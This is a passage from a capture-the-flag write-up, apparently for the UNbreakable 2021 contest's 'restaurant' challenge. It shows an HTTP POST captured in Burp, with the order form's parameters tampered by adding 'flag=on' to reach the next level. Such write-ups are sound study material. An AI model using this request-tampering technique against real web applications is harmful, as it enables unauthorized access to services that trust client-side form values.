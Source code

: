 The page looks different, but the idea remains the same. We order any dish (I recommend Pensive Profiterol in this case - it sounds tastier than the others) and modify the request in Burp:

{% highlight bash %}
POST /level1.php HTTP/1.1
Host: 34.107.86.157:32311
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://34.107.86.157:32311
Connection: close
Referer: http://34.107.86.157:32311/level1.php
Upgrade-Insecure-Requests: 1

flag=on&order=
{% endhighlight %}

Here's the next level:

<div>
<center><img src="/images/unbreakable-2021-individual-writeup/the-restaurant-3.png"></center>
</div>
